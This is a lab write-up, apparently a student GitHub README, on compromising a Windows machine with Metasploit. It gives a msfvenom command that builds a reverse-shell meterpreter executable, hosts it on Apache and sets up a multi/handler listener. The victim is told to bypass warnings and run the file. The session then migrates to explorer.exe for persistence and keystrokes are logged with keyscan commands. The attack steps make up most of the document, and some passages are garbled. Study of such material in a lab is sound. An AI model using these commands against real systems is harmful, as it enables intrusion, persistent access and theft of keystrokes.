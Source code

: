 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig 322251922-6e11e35c-4c2c-4b7f-b903-58b1582a464b
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/104eab8b-3fb7-48fe-ade0-31243e195d81)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe 

![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/0df0e815-1019-49e3-996b-43e70ba70201)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/77100a12-2427-4562-906a-ea2cf6a3e18d)

Start apache server sudo systemctl apache2 start 
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/0c72e2bc-2ed6-4f58-82d5-6abf3cc86165)

Check the status of apache2
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/0cdc4dbc-0096-421c-9871-7c748d834acf)

Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit ![326166316-27254eeb-6e3e-4ca0-938f-fa39732b8b8a] On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. (https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/6a71f1a6-830e-4160-8355-3cb87ec0e619)
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/d7513f4b-c94d-4f1f-ba56-23812f92ccfa)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/6f84f7dc-4cf9-4d05-9fbe-de8fd2ab8269)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/187cae8f-a756-4f56-a659-80340356c26c)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/f67aa38d-536c-436d-90f7-2cada74bbdbc)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/360ef81c-76fc-44e8-82f0-f6bf264b8bf4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
